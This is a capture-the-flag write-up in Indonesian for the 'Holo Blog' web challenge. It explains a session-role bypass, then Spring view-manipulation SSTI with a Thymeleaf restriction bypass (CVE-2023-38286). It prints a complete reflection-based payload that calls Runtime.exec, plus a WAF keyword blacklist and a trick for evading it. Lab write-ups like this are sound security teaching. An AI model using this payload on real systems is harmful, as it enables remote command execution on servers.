 # Holo Blog

|Category|Solves|
|--------|------|
|Web|0/12|

# Description
Hololive just make a vacation agent website, can you check it for me?

# Overview

Pada challenge ini terdapat 2 vulnerability. Yang pertama adalah SSTI yang dapat kita lihat pada source code berikut

```java
public class Public {
    @GetMapping("/")
    String index(HttpSession session) throws Exception {
        String lang = (String) session.getAttribute("lang");
        return String.format("lang/%s/index", lang); // vulnerable to SSTI
    }
}
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/cffb36330020de892d3073a42d71bc6e50a8d23b/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/Public.java#L13)

Kita dapat merubah atribute "lang" dengan melakukan bypass "guest" pada kode berikut:

```java
    @PatchMapping("/lang")
    DefaultResponseFormat patchLang(@Valid @RequestBody(required = true) Lang data, HttpSession session)
            throws Exception {
        val defaultResponseFormat = new DefaultResponseFormat();
        val sessionId = session.getId();
        val user = new User();
        val role = user.getRole(sessionId);
        if ("guest".equals(role)) {
            throw new HttpClientErrorException(HttpStatus.UNAUTHORIZED, "Unauthorized");
        } else {
            session.setAttribute("lang", data.getLang());
            defaultResponseFormat.setMessage("ok");
        }
        return defaultResponseFormat;
    }
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/RestPublic.java#L34)

Kalian dapat melakukan bypass dengan cara membuat "role" menjadi null, ini bisa dilakukan dengan mengakses endpoint refresh:

```java
    @GetMapping("/refresh")
    RedirectView refresh(HttpSession session, HttpServletResponse response) throws SQLException {
        val redirectView = new RedirectView("/");
        val sessionId = session.getId();
        val user = new User();
        user.deleteUserByUserId(sessionId);
        response.setHeader("Set-Cookie", "JSESSIONID=null; Path=/; HttpOnly");
        return redirectView;
    }
```
> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/controler/RestPublic.java#L43)

Karna pada endpoint refresh melakukan delete pada user, maka program melakukan request ke database, maka username kita akan null.

## SSTI

Kita sudah dapat menkontrol atribute "lang", sekarang kita bisa melakukan SSTI spring view manipulation yang bisa kalian lihat penjelasannya pada artikel berikut: [link](https://github.com/veracode-research/spring-view-manipulation)

Tapi karna terdapat restriksi dari thymeleaf, kita harus membypass restriksi itu menggunakan [CVE-2023-38286](https://nvd.nist.gov/vuln/detail/CVE-2023-38286) yang POC-nya dapat kita lihat pada github repo berikut https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI .

Base Payload untuk melakukan exploit SSTI pada challenge ini dengan menggunakanas bypass tersebut kurang lebih seperti ini:

```java
getRuntimeMethod=''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'getRuntime' )

runtimeObj=''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(getRuntimeMethod, null)

exeMethod=''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'exec', ''.getClass())

finals=''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(exeMethod, runtimeObj, 'calc' )
```

Dikarenakan kita tidak bisa menggunakan `T()` seperti pada POC, kita menggantinya menggunakan `''.getClass().forName()`.

Jika digabungkan semua payload tersebut, maka final payload akan terlihat seperti berikut:

```java
__${''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'exec', ''.getClass()), ''.getClass().forName('org.springframework.util.ReflectionUtils').invokeMethod(''.getClass().forName('org.springframework.util.ReflectionUtils').findMethod(''.getClass().forName('org.springframework.util.ClassUtils').forName('java.lang.Runtime',''.getClass().forName('org.springframework.util.ClassUtils').getDefaultClassLoader()), 'getRuntime' ), null), 'calc' )}__
```

Sekarang kita perlu membypass WAF berikut ini:

```java
public class WAF {
    private static enum WafList {
        SSTI("\"", "+", "Runtime", "concat", "replace", "join", "format", "substring", "class", "java", "exec", "char",
                "Process", "cmd", "eval", "Char", "true", "false");

        @Getter
        private final String[] blacklist;

        WafList(String... blacklist) {
            this.blacklist = blacklist;
        }
    }
```

> [source code](https://github.com/dimasma0305/My-CTF-Challenges/blob/88ed381fead0fea20a2d0f5b45b657f88148b9c2/Hology-final-2023/Holo-Blog/src/src/main/java/com/blog/blog/waf/WAF.java#L6C1-L17C6)

Disini untuk melakukan bypass kita menggunakan concat untu mekonstruksi string yang bisa kita panggil seperti berikut:

```java
''.getClass().getMethods()[47].invoke(str1,str2)
```
> Note: concat tidak selalu berada di index ke 47, ini tergantung kode java dan juga versi java yang kita gunakan.

Untuk final payload bisa di lihat pada folder [./writeup](./writeup/)


# Reference
- https://github.com/p1n93r/SpringBootAdmin-thymeleaf-SSTI
- https://github.com/veracode-research/spring-view-manipulation
